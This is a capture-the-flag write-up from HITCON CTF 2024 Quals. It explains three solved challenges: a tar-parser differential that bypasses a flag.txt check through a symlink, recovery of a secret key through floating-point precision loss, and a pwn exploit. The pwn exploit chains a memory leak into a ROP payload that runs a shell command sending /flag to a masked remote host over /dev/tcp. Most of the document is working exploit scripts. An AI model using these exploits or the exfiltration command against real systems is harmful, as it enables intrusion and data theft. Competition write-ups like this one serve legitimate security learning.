


I participated in HITCON CTF 2024 Quals as a member of TokyoWesterns. Our team placed 4th and advanced to the finals.
I worked with other team members to solve Flag Reader (misc), Gleamering Star (crypto, web), and Gleamering Hope (pwn).


# Writeup


## Flag Reader (misc 271pts)


The challenge files included the server's source code. Here's a basic overview of how it worked:

1. It receives a base64 encoded tar file as input.
2. It uses Python's [tarfile](https://docs.python.org/3/library/tarfile.html) library to check if the input only contains files and doesn't include a file named "flag.txt".
3. It runs the tar command to extract the uploaded tar file into a temporary directory. If the tar command fails, it exits.
4. If the extracted files include "flag.txt", it displays its contents.

The flag is placed in /flag.txt.


Looking at [the source code of tarfile](https://github.com/python/cpython/blob/d870f4130b5d6d813c47f7d24ab8616c898eeae0/Lib/tarfile.py#L2616), we can see that if an InvalidHeaderError occurs in the second or later files, it's ignored and the subsequent files aren't read.
Therefore, we can see that if we can create a tar file that causes an InvalidHeaderError in the second file, includes a symbolic link named flag.txt pointing to /flag.txt in the third file, and doesn't cause the tar command to error out, we should be able to obtain the flag.


Simply corrupting the header would cause the tar command to fail as well, so I decided to look at the busybox tar source code to see if I could create an input that would succeed with the tar command but fail with the tarfile library.


After reading the source code, I found that in the function used to parse numeric fields like checksum, [busybox tar ignores anything after a space](https://github.com/mirror/busybox/blob/2d4a3d9e6c1493a9520b907e07a41aca90cdfd94/archival/libarchive/get_header_tar.c#L32), while tarfile checks the entire field.


Therefore, it seemed possible to generate a tar file that would reveal the flag by modifying the checksum of the second file to be "[correct checksum] [BAD CHARACTER]".


I created a tar file as follows and edited the checksum with a binary editor, successfully creating a tar file that could retrieve the flag:


```text
$ touch a b
$ ln -s /flag.txt flag.txt
$ tar cf exploit.tar a b flag.txt
```


(I used 010editor and [this template](https://github.com/reox/010editor-templates/blob/ba485d3524de17960d5326b1832f90a94cbb18e8/TARTemplate.bt).)


```text
$ (cat exploit.tar | base64 | tr -d '\n' && echo ) | nc -v flagreader.chal.hitconctf.com 22222
```


As a side note, I initially thought it was GNU tar and was trying to solve the problem that way. With GNU tar, you can use base64 notation for numbers, so you could bypass it by setting something like "+AAAA" for mtime.


## Gleamering Star(crypto, web 360pts)


This was a challenge to steal the flag from a TODO management app with encryption features, created using the Gleam language.


### Problem Analysis


The source code was divided into three projects:

1. gleaming_light: A frontend server that generates and returns HTML. It calls gleaming_star as an API server. **It runs on Deno Runtime.** Users directly access this.
2. gleaming_star: An API server responsible for data persistence and encryption. It runs on BEAM.
3. gleaming_hope: A library used by gleaming_light and gleaming_star.


The following two types of data are persisted in the database (sqlite3):

- Users (users) with important columns:
	- id
		- Generated by AUTO INCREMENT
	- user_id
		- A separate integer from id. Set as a random number up to 100000 in the frontend. **Can be set to any value by directly sending a request during signup.**
- Items (items) with important columns:
	- id
		- Generated by AUTO INCREMENT
	- item_id
		- An integer used when retrieving posts. If not encrypted, it's the same as id. If encrypted, it's set to id + user_id + authorization_key (a secret value set from environment variables).

Item encryption is performed as follows: `plaintext xor SHA512(u128::to_be_bytes(0xDEADBEEF * user_id + 0xCAFEBABE * item.id + authorization_key * user_id))`


The flow of important endpoints is as follows:








### Solution


First, we need to obtain the encrypted flag. Since there's no check to verify if the encrypted post belongs to the logged-in user, we can create a user with user_id=1 and access /posts/1/encrypt to get the encrypted flag.


Next, we need to obtain the authorization_key. We can take advantage of the fact that gleaming_light runs on Deno Runtime, where [integer precision is 64-bit floating point](https://tour.gleam.run/basics/ints/). When decrypting a post, it calculates item.id+user_id+authorization_key, but this only has 53 bits of precision. So, with large user_ids, the item won't be found and an error will occur (during encryption, it's calculated on the API side, so it's recorded with exact values). We can use binary search to find the maximum user_id + item.id that doesn't cause an error, and then subtract this from 2**53 to extract the authorization_key. To avoid numbers that can't be represented exactly in 64-bit floating point, we check that both the value we're testing and that value plus 1 don't cause errors.


After extracting the authorization_key, we can decrypt according to the encryption format to obtain the flag.


```python
import requests
import re
import time
import struct
import hashlib
import base64

# BASE_URL = "http://localhost:8001"
BASE_URL = "http://gleamering.chal.hitconctf.com:30676"
def generate_key(user_id, post_id, authorization_key):
    user_mult = 0xDEADBEEF
    msg_mult = 0xCAFEBABE
    user_key = (user_id * user_mult) + (post_id * msg_mult) + (authorization_key * user_id)
    key = struct.pack('>QQ', 0, user_key)
    return hashlib.sha512(key).digest()

class Connection:
    def __init__(self):
        self.estimate_post_id= None
        self.session = None
        pass

    def signup(self, user_id: int):
        session = requests.Session()
        url = f"{BASE_URL}/signup"
        data = {
            "user": "ellie",
            "pass": "ellie",
            "id": user_id
        }
        response = session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to signup")
        if self.session is not None:
            print('close session')
            self.session.close()
        self.session = session

    def post(self, content: str) -> int:
        url = f"{BASE_URL}/posts"
        data = {
            "content": content
        }
        response = self.session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to post message")
        # Extract hx-get="/posts/xx" from body 
        text = response.text
        return int(re.findall(r'hx-get="/posts/(\d+)"', text)[0])
    
    def try_encrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def try_decrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def get_encrypted_post(self, post_id) -> str:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.get(url)
        if response.status_code != 200:
            raise Exception("Failed to get encrypted post")
        text = response.text
        return re.findall(r'<label>(.*)</label>', text,  re.DOTALL)[0].strip()
    
    def close(self):
        if self.session is not None:
            self.session.close()
            self.session.__exit__()

admin_user = Connection()
admin_user.signup(1)
# Get encrypted flag
encrypted_flag = admin_user.get_encrypted_post(1)
print(f"{encrypted_flag = }")
def check(num):
    connection = Connection()
    base_post_id = admin_user.post("test")
    connection.signup(num - base_post_id - 1)
    post_id = connection.post("test")
    if not connection.try_encrypt(post_id):
        time.sleep(0.5)
    if not connection.try_decrypt(post_id):
        return False
    # Also check +1
    post_id = connection.post("test")
    if not connection.try_encrypt(post_id):
        time.sleep(0.5)
    if not connection.try_decrypt(post_id):
        return False
    return True

low = 2 ** 52
high = 2 ** 53
while low + 1 < high:
    mid = (low + high) // 2
    if check(mid):
        low = mid
    else:
        high = mid
    print(['%x' % low, '%x' % high])
authorization_key = 2 ** 53 - high
print(f'{authorization_key = }')
key = generate_key(1, 1, authorization_key)
flag = bytes([a ^ b for a, b in zip(list(base64.b64decode(encrypted_flag)), list(key))]).decode('utf-8')

print(f'{flag = }')
```


## Gleamering Hope(pwn 400pts)


I solved this with hama and ptr-yudai.


### Problem Analysis


A function `stream_xor` that XORs two binary sequences is implemented in `gleaming_hope/priv/gleamering_hope_ffi.so`.


```c
__int64 __fastcall xor_stream(ErlNifEnv *env, __int64 argc, ERL_NIF_TERM *argv)
{
  int v4; // edx
  int v5; // ecx
  int v6; // r8d
  int v7; // r9d
  ErlNifBinary result; // [rsp+20h] [rbp-D0h] BYREF
  ErlNifBinary prefix; // [rsp+50h] [rbp-A0h] BYREF
  ErlNifBinary key; // [rsp+80h] [rbp-70h] BYREF
  ErlNifBinary msg; // [rsp+B0h] [rbp-40h] BYREF
  __int64 binary; // [rsp+E0h] [rbp-10h]
  int i; // [rsp+ECh] [rbp-4h]

  if ( !(unsigned int)enif_inspect_binary(env, *argv, &msg)
    || !(unsigned int)enif_inspect_binary(env, argv[1], &key)
    || !(unsigned int)enif_inspect_binary(env, argv[2], &prefix) )
  {
    return enif_make_badarg(env);
  }
  if ( msg.size )
  {
    if ( !(unsigned int)enif_alloc_binary(msg.size + prefix.size, &result) )
      return enif_make_badarg(env);
    memcpy(result.data, prefix.data, prefix.size);
    for ( i = 0; i < msg.size; ++i )
      result.data[prefix.size + i] = key.data[i] ^ msg.data[i]; // BUG: key length is not checked
    binary = enif_make_binary(env, &result);
    if ( (unsigned int)is_backdoor((int)env, (int)&result, v4, v5, v6, v7, result.size, (__int64)result.data) )// Check result begins with "$b4cKd0Or|"
      hex_decode(&result, msg.data, LODWORD(msg.size)); // Write anything to stack!!
    return binary;
  }
  else
  {
    if ( !(unsigned int)enif_alloc_binary(8LL, &result) )
      return enif_make_badarg(env);
    *(_QWORD *)result.data = &enif_alloc_binary;
    return enif_make_binary(env, &result);
  }
}
```


First, when XORing Msg and Key, it only considers the length of Msg. Therefore, when encrypting a long Msg, the content of the memory beyond the Key length (32 bytes) will leak.


Furthermore, when the encryption result starts with `$b4cKd0Or|`, it decode the message as hex and write to the stack.


### Solution


First, we use the initial bug to leak the address where the code (beam.smp) is located and a writable address.


We can leak the memory content by creating a long post, encrypting it, and XORing the result with the plaintext. Then, we search the leaked memory content for the address where the code is located.


```python
import requests
import re
import base64

BASE_URL = "http://localhost:8001"
# BASE_URL = "http://gleamering.chal.hitconctf.com:30676"
BASE_URL = 'http://gleamering.chal.hitconctf.com:30676'
class Conn:
    def __init__(self):
        self.estimate_post_id= None
        pass

    def signup(self, user_id: int):
        session = requests.Session()
        url = f"{BASE_URL}/signup"
        data = {
            "user": "ellie",
            "pass": "ellie",
            "id": user_id
        }
        response = session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to signup")
        self.session = session

    def post(self, content: str) -> int:
        url = f"{BASE_URL}/posts"
        data = {
            "content": content
        }
        response = self.session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to post message")
        text = response.text
        return int(re.findall(r'hx-get="/posts/(\d+)"', text)[0])
    
    def try_encrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def try_decrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def get_encrypted_post(self, post_id) -> str:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.get(url)
        if response.status_code != 200:
            raise Exception("Failed to get encrypted post")
        text = response.text
        return re.findall(r'<label>(.*)</label>', text,  re.DOTALL)[0].strip()
 
conn = Conn()
conn.signup(1)
# Create long post (0x100000 bytes)
post_id = conn.post("A" * 0x100000)
# Encrypt
conn.try_encrypt(post_id)
# Get leaked information
content = conn.get_encrypted_post(post_id)
content = base64.b64decode(content)
content = bytearray([c ^ ord(b'A') for c in content])


th_max =  0x800000000000
th_min = 0x7f0000000000
libc_min = 0x00007fe8e5d91000
libc_max = 0x00007fe8e6324000
max = 0
min = 0x7fffffff0000

code_min_th = 0x550000000000
code_max_th = 0x570000000000
code_min = 0x570000000000

# f = open('address.txt', 'w')
for i in range(len(content)//8):
    a = int.from_bytes(content[i*8:i*8+8], 'little')
    # f.write(hex(a)+'\n')
    if th_min < a and a < th_max:
        if a > max:
            max = a
        if a < min:
            min = a
    if code_min_th < a < code_max_th:
        if a < code_min:
            code_min = a
print('min : 0x%x' % min)
print('max : 0x%x' % max)
print('code_min : 0x%x' % code_min)

codebase = 0xdeadbeef
if (code_min & 0xfff) == 0xdc0:
    codebase = code_min - 0xa1cdc0
elif (code_min & 0xfff) == 0xf80:
    codebase = code_min - 0xa1df80
else:
    codebase = code_min - 0xa24c80
print('codebase : 0x%x' % codebase)
```


Next, we perform ROP using the leaked beam.smp. We generate a message that will call the backdoor when encrypted, and place a hexed payload behind it to achieve ROP. Since only UTF8 can be used in plaintext, we search for a user_id that makes the plaintext UTF8 and the encryption result become backdoor.
Because the API server is being exploited and doesn't have direct stdin/stdout connections, we send the flag over the network.


```python
import requests
import re
import base64
import struct
import hashlib

BASE_URL = "http://localhost:8001"
BASE_URL = "http://gleamering.chal.hitconctf.com:30676"
AUTHORIZATION_KEY =  2099777860903446
BACKDOOR_PREFIX = b"$b4cKd0Or|"

def generate_key(user_id, post_id):
    user_mult = 0xDEADBEEF
    msg_mult = 0xCAFEBABE
    user_key = (user_id * user_mult) + (post_id * msg_mult) + (AUTHORIZATION_KEY * user_id)
    key = struct.pack('>QQ', 0, user_key)
    return hashlib.sha512(key).digest()

def search_key(post_id):
    for i in range(1, 2**20):
        k = generate_key(user_id=i, post_id=post_id)
        valid = True
        for j in range(len(BACKDOOR_PREFIX)):
            if not (0x20 <= (k[j] ^ BACKDOOR_PREFIX[j]) <= 0x7f):
                valid = False
                break
        if valid:
            return i
    return None


class Conn:
    def __init__(self):
        self.estimate_post_id= None
        pass

    def signup(self, user_id: int):
        session = requests.Session()
        url = f"{BASE_URL}/signup"
        data = {
            "user": "ellie",
            "pass": "ellie",
            "id": user_id
        }
        response = session.post(url, data=data)
        if response.status_code != 200:
            raise Exception("Failed to signup")
        self.session = session

    def post(self, content: str) -> int:
        url = f"{BASE_URL}/posts"
        data = {
            "content": content
        }
        print(data)
        response = self.session.post(url, data=data)
        if response.status_code != 200:
            print(response.text)
            raise Exception("Failed to post message")
        text = response.text
        return int(re.findall(r'hx-get="/posts/(\d+)"', text)[0])
    
    def try_encrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def try_decrypt(self, post_id: int) -> bool:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.patch(url)
        if response.status_code != 200:
            return False
        return True
    
    def get_encrypted_post(self, post_id) -> str:
        url = f"{BASE_URL}/posts/{post_id}/encrypt"
        response = self.session.get(url)
        if response.status_code != 200:
            raise Exception("Failed to get encrypted post")
        text = response.text
        return re.findall(r'<label>(.*)</label>', text,  re.DOTALL)[0].strip()

# Create user1
user1 = Conn()
user1.signup(user_id=1)

## Attack
# Create dummy post to get next_post_id
next_post_id = user1.post("dummy") + 1
# search ASCII readable plaintext
user_id = search_key(post_id = next_post_id)
user2 = Conn()
user2.signup(user_id=user_id)
key = generate_key(user_id=user_id, post_id=next_post_id)

# Prefix to call backdoor
enc_prefix = bytes(bytearray([a ^ b for (a, b) in zip(list(BACKDOOR_PREFIX), list(key[:len(BACKDOOR_PREFIX)]))])).decode('utf-8')


from pwn import *

"""
; 0x004d5277: pop rax; ret;
; 0x0052e2a9: pop rdi; ret;
; 0x0052b3f5: pop rsi; ret;
; 0x004773b8: mov [rdi+8], rax; ret;
"""

proc_base = 0x555816e00000 # TBA
addr_writable = 0x7ffc356aee70 # TBA
cmd = b"/bin/bash -c \"cat /flag  > /dev/tcp/XXX.XXX.XXX.XXX/5201\"\0"
cmd += b'\x00' * (8 - (len(cmd) % 8))

rop_pop_rax = proc_base + 0x004d5277
rop_pop_rdi = proc_base + 0x0052e2a9
rop_pop_rsi = proc_base + 0x0052b3f5
rop_mov_prdiP8h_rax = proc_base + 0x004773b8
plt_execv = proc_base + 0x2008c0

payload = b''

def write64(addr, value):
    payload = b''
    payload += p64(rop_pop_rax)
    payload += p64(value)
    payload += p64(rop_pop_rdi)
    payload += p64(addr - 8)
    payload += p64(rop_mov_prdiP8h_rax)
    return payload

"""
addr_writable + 00h: addr_writable + 20h
addr_writable + 08h: addr_writable + 28h
addr_writable + 10h: addr_writable + 30h
addr_writable + 18h: 0

addr_writable + 20h: "/bin/sh"
addr_writable + 28h: "-c"
addr_writable + 30h: "cmd......"
"""

# args
payload += write64(addr_writable + 0x00, addr_writable + 0x20)
payload += write64(addr_writable + 0x08, addr_writable + 0x28)
payload += write64(addr_writable + 0x10, addr_writable + 0x30)
payload += write64(addr_writable + 0x18, 0)
# args[0]
payload += write64(addr_writable + 0x20, u64(b"/bin/sh\0"))
# args[1]
payload += write64(addr_writable + 0x28, u64(b"-c\0\0\0\0\0\0"))
# args[2]
for i in range(0, len(cmd), 8):
    payload += write64(addr_writable + 0x30 + i, u64(cmd[i:i+8]))

# execv("/bin/sh", args)
payload += p64(rop_pop_rsi)
payload += p64(addr_writable)
payload += p64(rop_pop_rdi)
payload += p64(addr_writable + 0x20)
payload += p64(plt_execv)

print(payload)


post_id = user2.post(enc_prefix +  "a"*0x1a6 + payload.hex())
assert post_id == next_post_id
user2.try_encrypt(post_id)
# display(base64.b64decode(user2.get_encrypted_post(post_id)))
```

